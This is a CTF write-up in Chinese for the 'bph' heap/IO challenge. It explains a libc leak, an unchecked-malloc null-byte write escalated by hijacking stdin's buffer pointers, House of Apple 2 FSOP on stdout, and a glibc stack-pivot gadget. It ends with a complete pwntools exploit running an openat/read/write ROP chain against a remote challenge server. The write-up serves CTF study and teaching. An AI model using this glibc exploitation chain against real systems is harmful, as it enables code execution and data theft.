






# bph

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.39-0ubuntu8.6|

## seccomp rules



## 解题思路

### 寻找漏洞

> [!NOTE]
> 题目附件只给了ELF，也不给一下libc...看星盟的wp说是Ubuntu 24.04

题目中就两个漏洞：部分写入导致的信息泄露，以及在执行`create`时对malloc结果不做检查，
直接写`'\0'`导致的任意地址写0。





检查我们首次输入内容时可以泄露的内容，有堆、栈、程序基址、libc和libseccomp，
然而只能取其一，那我们选择泄露`free`的地址来获取libc基址。



### 任意写0到任意写

接下来怎么利用这一个0字节来利用呢？首先我们需要更多输入，那么阅读`fgets`的源码，
一步一步向里跟踪，可以找到这么一条要求用户输入的链子：
`_IO_fgets -> _IO_getline -> _IO_getline_info -> __uflow --> _IO_UFLOW`
查找跳表，是执行`_IO_default_flow`，接着执行`_IO_UNDERFLOW`，展开为`_IO_new_file_underflow`，
最后调用`read`从标准输入中读取更多内容。

```c glibc-2.39/source/libio/fileops.c#L512
int
_IO_new_file_underflow (FILE *fp)
{
  ...
  fp->_IO_read_base = fp->_IO_read_ptr = fp->_IO_buf_base;
  fp->_IO_read_end = fp->_IO_buf_base;
  fp->_IO_write_base = fp->_IO_write_ptr = fp->_IO_write_end
    = fp->_IO_buf_base;

  count = _IO_SYSREAD (fp, fp->_IO_buf_base,
                       fp->_IO_buf_end - fp->_IO_buf_base);
```

只要我们控制了`stdin->_IO_buf_base`，由于原来`stdin->_IO_buf_end`指向其`_shortbuf + 1`，
我们就可以向其中填充大量数据。想要触发`read`读取数据，需要满足`read_ptr >= read_end`，
否则会走解析已有数据的路径：

```c glibc-2.39/source/libio/iogetline.c#L80
size_t
_IO_getline_info (FILE *fp, char *buf, size_t n, int delim,
                  int extract_delim, int *eof)
{
  ...
  while (n != 0)
    {
      ssize_t len = fp->_IO_read_end - fp->_IO_read_ptr;
      if (len <= 0)
        ...
      else
        {
          char *t;
          if ((size_t) len >= n)
            len = n;
          t = (char *) memchr ((void *) fp->_IO_read_ptr, delim, len);
          if (t != NULL)
            {
              size_t old_len = ptr-buf;
              len = t - fp->_IO_read_ptr;
              if (extract_delim >= 0)
                {
                  ++t;
                  if (extract_delim > 0)
                    ++len;
                }
              memcpy ((void *) ptr, (void *) fp->_IO_read_ptr, len);
              fp->_IO_read_ptr = t;
              return old_len + len;
            }
          memcpy ((void *) ptr, (void *) fp->_IO_read_ptr, len);
          fp->_IO_read_ptr += len;
          ptr += len;
          n -= len;
        }
    }
```

换句话说，每次都会先消耗完所有的缓冲区字节后，才会走触发`read`的分支。
现在我们考虑如何输入能保证让glibc去读取我们想要的输入呢？首先create时，
`read(0, 0, size)`也会触发阻塞，但是我们输入任何东西都会使`read`返回`EFAULT`，
并使其滞留在缓冲区中。像我这样，输入一个`'\n'`，会让`fgets`获取之，
然后`read_ptr = buf_base`, `read_end = buf_base + 1`，接着`fgets`返回，
显示"bad choice"。接下去回到`fgets`，先前消耗掉的`'\n'`使得缓冲区耗尽
(`read_ptr += 1, read_ptr == read_end`)，所以又需要刷新缓冲区。

此时我们将`buf_base`和`buf_end`写为`_IO_2_1_stderr_`和`stdout`，
然后`fgets`没有遇到换行符，消耗0x1f字节，缓冲区剩余`40 - 0x1f = 9 < 0x1f`。

> [!IMPORTANT]
> 这里注意不能多发送一个换行符，不能用`t.sendline`，因为`_IO_buf_end`后面邻接的是`_IO_save_base`，
> 在`__uflow`过程中会`free`之，多一个换行符使其变为`0xa`，会导致 *SEGV*。

这样返回一个"bad choice"后，再次进入`fgets`获取0x1f字节，发现缓冲区耗尽，
又一次刷新缓冲区，此时我们就能往`_IO_2_1_stderr_`和`_IO_2_1_stdout_`中写入数据了。

我们往`_IO_2_1_stderr_`中写入ROP链（反正用不到），再往`_IO_2_1_stdout_`伪造结构体，
就可以套House of Apple 2的链子去劫持控制流。可以参考下图作为读入字节流的情况。



### 任意写到栈迁移

在能控制`_IO_2_1_stdout_`后，我们就可以打[House of Apple 2]来劫持程序控制流。
但是题目有沙箱，必须要走ROP链才有机会能执行orw打印flag。首先要找一个合适的gadget来做栈迁移，
过往的`setcontext` gadget感觉如今用起来有些限制，所以我决定爆搜libc，看看有没有别的gadget。
写了一个调用capstone的脚本来找，看起来gadget很多，但其实能用的不多。

[House of Apple 2]: https://roderickchan.github.io/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/#%E5%88%A9%E7%94%A8_io_wfile_underflow_mmap%E5%87%BD%E6%95%B0%E6%8E%A7%E5%88%B6%E7%A8%8B%E5%BA%8F%E6%89%A7%E8%A1%8C%E6%B5%81

```python seek-stack-pivot-gadgets.py
#!/usr/bin/python
from capstone import *
import sys
import lief
from rich.progress import track
from collections.abc import Callable

if len(sys.argv) == 1:
    print(f'Usage: python {sys.argv[0]} <libc ELF>')
    sys.exit(1)

libc = lief.parse(sys.argv[1])
if libc is None:
    print(f'{sys.argv[1]} is not a ELF file!')
    sys.exit(2)

text = libc.get_section('.text')
text_off = text.offset
text_buf = text.content
text_len = text.size

def check_mov_rsp(insn: CsInsn, _: CsInsn | None) -> bool:
    return insn.mnemonic == 'mov' and insn.op_str.startswith('rsp,') \
        and 'rbp' not in insn.op_str

def check_xchg_rsp(insn: CsInsn, _: CsInsn | None) -> bool:
    if insn.mnemonic != 'xchg':
        return False
    op = insn.op_str
    return 'rsp,' in op or ', rsp' in op

def check_push_pop_rsp(insn1: CsInsn, insn2: CsInsn | None) -> bool:
    return insn1.mnemonic == 'push' and insn2 and insn2.mnemonic == 'pop' \
        and insn2.op_str == 'rsp' \
        and len(insn1.op_str) < 4 and insn1.op_str != 'rsp'

checkers: list[Callable[[CsInsn, CsInsn | None], bool]] = [
    check_mov_rsp, check_xchg_rsp, check_push_pop_rsp,
]

saved: list[CsInsn] = []
cs = Cs(CS_ARCH_X86, CS_MODE_64)
for i in track(range(text_len), 'Probing stack gadgets...'):
    insn_len = min(15, text_len - i)
    insns = list(cs.disasm(text_buf[i:i + insn_len], text_off + i))
    if not insns:
        continue
    insn1 = insns[0]
    insn2 = insns[1] if len(insns) > 1 else None
    if any(func(insn1, insn2) for func in checkers):
        saved.append(insns[0])

print('Gathered following gadgets:')
for insn in saved:
    print(f'{insn.address:#8x}:  {insn.mnemonic:6s}{insn.op_str}')
```


其中最好用的是`0x5ef6f`这个，对应`__push___start_context+63`，即`mov rsp, rdx; ret;`，
只要能控制rdx就可以。这个gadget你甚至直接能用ropper搜出来，比`setcontext`还好用。

最后我们的目标就是控制rdx，这样我们就能控制栈了。

### House of Apple 2 实现栈迁移

有没有什么办法，能在执行House of Apple 2攻击时，顺便把rdx也给控制了呢？
看一下这个版本函数的汇编的结果，在写入`read_stop`时，将`_IO_read_ptr`加载到了rdx中。
而在`_IO_wdoallocbuf`函数中没有变更rdx的值，因此我们只要能控制`_IO_read_ptr`，
就能控制rdx，显然可以做到。



最后整理一下：在`_IO_2_1_stderr_`写rop链，在`_IO_2_1_stdout_`劫持程序流到栈迁移gadget，
并且准备`_IO_read_ptr`来控制rdx为`_IO_2_1_stderr_`，就可以在`puts`时触发rop链打印flag。
到这里为止，就能顺利构造exp了。相比星盟的方案，避免了控制rcx的问题，更加直接了些。

### 不受干扰的栈迁移gadget

`__push___start_context`处的gadget简单好用，它会不会受编译器影响呢？寻找这个函数，发现其位于
`glibc/sysdeps/unix/sysv/linux/x86_64/__start_context.S`，是手写汇编，因此，一直存在。
那么它是什么时候出现的呢？使用git blame，找到这一段的编辑是在[7年前的这个commit]引入的，
对应到版本是`> glibc-2.27`，也就是说从18年到现在都存在这个问题。
可以说是现在越来越安全的情况下的通解之一了。

[7年前的这个commit]: https://github.com/bminor/glibc/commit/25123a1c5c96429d70e75b85a9749b405909d7f2

最讽刺的是这个函数明明是为了引入shadow stack这么一个安全特性而引入的，
却为ROP攻击留下了巨大的隐患。补上了一个洞，却又打开了另一扇门。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './bph'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, 'set directories /usr/src/debug/glibc-2.39/')
    else:
        t = remote('47.94.214.30', 36878)
    elf = ELF(EXE)
    libc = elf.libc

    # 1. Partial write to leak libc
    t.sendafter(b'token', b'FLAG'.rjust(0x28))
    t.recvuntil(b'FLAG')
    libc_base = u64(t.recv(6) + b'\0\0') - libc.symbols['free'] - 126
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    # 2. Call create and set buf_base
    t.sendlineafter(b'3) View note', b'1') # create
    # set *(char *)&_IO_2_1_stdin_.file._IO_buf_base = 0
    t.sendlineafter(b'Size', str(libc.symbols['_IO_2_1_stdin_'] + 0x38 + 1).encode())
    t.sendafter(b'Content', b'\n')

    # 3. Overwrite buf_base and buf_end to perform arbitrary write
    # overwrite => write_base write_ptr write_end buf_base buf_end
    t.recvuntil(b'3) View note')
    t.sendafter(b'3) View note', flat(0, 0, 0,
        # write rop chain on _IO_2_1_stderr_, overwrite _IO_2_1_stdout_ to perform FSOP
        libc.symbols['_IO_2_1_stderr_'], libc.symbols['stdout']))

    pivot_gadget = libc_base + 0x5ef6f  # mov rsp, rdx; ret
    set_rdx_0x7f = libc_base + 0xf9de8  # mov edx, 0x7f; cmovne rax, rdx; ret
    set_rdx_0    = libc_base + 0x16e983 # xor edx, edx; mov rax, rdx; ret
    set_rdx_rax  = libc_base + 0x4b361  # mov edx, eax; mov eax, 0x10; sub eax, edx; ret
    pops = ROP(libc)

    chain = flat([
        pops.rdi.address, -100, # AT_FDCWD
        pops.rsi.address, libc.symbols['_IO_2_1_stdout_'] - 0x18, # where we store "/flag"
        set_rdx_0,
        libc.symbols['openat'],

        pops.rdi.address, 3,
        pops.rsi.address, libc.symbols['__abort_msg'], # pick some place to store flag
        set_rdx_0x7f,
        libc.symbols['read'],

        pops.rdi.address, 1,
        pops.rsi.address, libc.symbols['__abort_msg'],
        set_rdx_rax,
        libc.symbols['write'],

        pops.rdi.address, 0,
        libc.symbols['_exit'],
    ])
    assert len(chain) < 0xc8, f'ROP chain too long ({len(chain):#x}) to fit stderr!'
    forged_stderr = chain.ljust(0xc8, b'\0') + b'/flag'.ljust(8, b'\0')

    IO_wfile_jumps_mmap = libc_base + 0x2022d0
    forged_stdout = flat({
        0:      0, # wide_read_ptr
        8:      0, # wide_read_end
    }, {
        8:      libc.symbols['_IO_2_1_stderr_'],        # IO_read_ptr & RDX
        0x10:   libc.symbols['_IO_2_1_stderr_'] + 1,    # IO_read_end
        0x68:   pivot_gadget,                           # DOALLOCATE
        0x88:   libc.symbols['_IO_list_all'],           # lock
        0xa0:   libc.symbols['_IO_2_1_stdout_'] - 0x10, # wide_data
        0xc0:   -1,                                     # mode
        0xd0:   libc.symbols['_IO_2_1_stdout_'],        # wide_vtable
        0xd8:   IO_wfile_jumps_mmap - 0x18,             # vtable
    }, filler=b'\0')

    # 4. Write ROP chain and forged stdout to hijack rip
    t.sendafter(b'3) View note', forged_stderr + forged_stdout)
    t.recvuntil(b'Choice: ')

    flag = t.recvuntil(b'}')
    success(f'Flag is: {flag.decode()}')

    t.close()
```

## 参考

1. [强网杯S9 Polaris战队Writeup](https://blog.xmcve.com/2025/10/20/%E5%BC%BA%E7%BD%91%E6%9D%AFS9-Polaris%E6%88%98%E9%98%9FWriteup/#title-2)
2. [House of Apple 一种新的 glibc 中 IO 攻击方法 (2)](https://roderickchan.github.io/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/#%E5%88%A9%E7%94%A8_io_wfile_underflow_mmap%E5%87%BD%E6%95%B0%E6%8E%A7%E5%88%B6%E7%A8%8B%E5%BA%8F%E6%89%A7%E8%A1%8C%E6%B5%81)
3. [x86-64/CET: Extend ucontext_t to save shadow stack](https://github.com/bminor/glibc/commit/25123a1c5c96429d70e75b85a9749b405909d7f2)
